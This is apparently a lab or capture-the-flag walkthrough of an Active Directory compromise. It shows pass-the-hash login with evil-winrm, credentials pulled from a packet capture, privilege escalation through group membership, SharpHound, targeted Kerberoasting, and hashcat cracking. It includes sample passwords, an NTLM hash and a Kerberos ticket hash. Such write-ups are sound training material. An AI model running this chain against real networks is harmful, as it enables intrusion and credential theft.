



# Log in via Administrator
```bash
evil-winrm -i 192.168.107.174 -u 'Administrator' -H '15759746f66f2da88d58f0160f8ee676'

# Grab Administrator Flag
```

## Found Interesting File


```bash
download traffic-capture-latest.pcapng
```

## Open and Analyze File

```bash
wireshark

# Load File

# Create HTTP Filter
# Sniff through traffic
# Poss Creds Found:
yulia.weber:Yulia@Laser777
```


## Add eric to Administrators Group while logged into "MS02 Administrator"
```bash
net localgroup 'Administrators' Eric.Wallows /add

#Results
The command completed successfully.

```

## Now we can run Sharphound as eric.

```bash
.\SharpHound.exe --ldapusername Eric.Wallows --ldappassword EricLikesRunning800 

# Download20260407203145_BloodHound.zip
# Load Bloodhound
```

## Search user Yulia (From PCAP File)


```bash
GenericWrite

#Provided Example
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```


## Targeted Kerberos Attack

```bash
#Download here
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

#change directory
cd ~/tools/targetedKerberoast

# Attack
python3 targetedKerberoast.py -v -d 'laser.com' -u 'yulia.weber' -p 'Yulia@Laser777' --dc-ip 192.168.107.172

#Result
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (boris.crawford)
[+] Printing hash for (boris.crawford)
$krb5tgs$23$*boris.crawford$LASER.COM$laser.com/boris.crawford*$778146d6a6f17dc983660bbf8532c26a$e8ec4a129d6e21ec9901e746e13039466e5d95f3b2fb96831b6a37066ceacf3184dacfe2df56c64e12e682cca7035239788dcb940ec47711cd9e896efc4b54aa6cd794ac99ad1329640667a3eff4b6b8c4e7f32ad5dde1161ab762b5b9325594013f3339c5b652e6fac186c198a548bf3d636b200f1c9402643d3311fe9005dc47a2f9d668675461cfde3cd9abe39b79e087bb696ea818dd97fc9cf70695b5e5fc467623811d01c2345109dc2f00f3e06f6078ddb41c692d8a65722c387dfde35aa724a82a82f6cf9152667834788841ef98b8417fba0427e71fb0fa711df2603d5a9fc563f36f28421bb4063ef157799fdcbdd48b220b3f457c0651c56f8ffe0983aced2de9b5cf176a6a92a40f77d5c56655e9601983d98e93859d9160a4f70158d1362c7f0063056c3d3e909b0bc1bce5828182e31a8806b0b28266c9c4e70c1554512723cbd7e2fab0dc5f08dfae978f60153abf5cbabc7b13f53b4e4bf8d76be2fd1f0ba31a6cd083abb0b0a2159b41cdc06516cafb8e0104ec8cecc584489c87346eb747d5c5cb060d811989cf476c83e284e87b3a25357e2ad954e5533cd3fafeb0e2231caa3b684446cdeb69d359a6fe3d59dba4897e32629b46cc92459e7035a62d92266cec7f4860b11c533b5222d8542f5ee163ad6a49347a6e3603af0bf056314f7012a04ef50e4c8a9458d76a130a6f4c025649cc704af71ed6e9cf0d7a1f5245614682fda549ed9067b2d12651566f55d7213e1e09aad5e74bdf228ed29c476e9b637c59f767ec5d73f52f818405c8f1dc9a27e258342f530c4500947bdce3a065e0d912792dd76780991aae54f803b513305292dc1ee9b5f3ad1d5cc09b99389e5dc121a2115fd4bbd114d077418fae5f2ffafda002e150cd3a3b18c240b7a582b151b2629b1c117cee5edd21210ebb6a0257cac6cb5e5c3538eb056379a803ded54d2340fd250f4547dc9d23cccd9524c8dd9c4a4b25b2ae40bd270402a6649248e341fea9c8e0712af6201feee6309a800bca6f624b61c9226dd82c64e913011a252eff46b45ac87752e7d28fddfa7430dbe84324f47223f07aab39f671d766eb0b8b82eddc3ef265874414e04f466cc9db970820247abefb90d364f0243d2ab70b953fafb03712c66a22138ab60104e39317b308c5bd2b36c67b4fc16cd049125701e3ba78e49ead6c760d859dd17b4b0e4dfb74a405d5899021d84b2b4e5ff4bccabe3be804ee87984270c6905e5cf4b9c8f4dddae911f39de869e20818ed6a80122a1b48857d0e7f5703988eb466719275a159
[VERBOSE] SPN removed successfully for (boris.crawford)

```

## Hashcat

```bash
#Create File and Paste
nano hash

#Crack it
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --quiet

#Results
zxcvbnm

## Proceed to .172
evil-winrm -i 192.168.107.172 -u 'boris.crawford' -p 'zxcvbnm'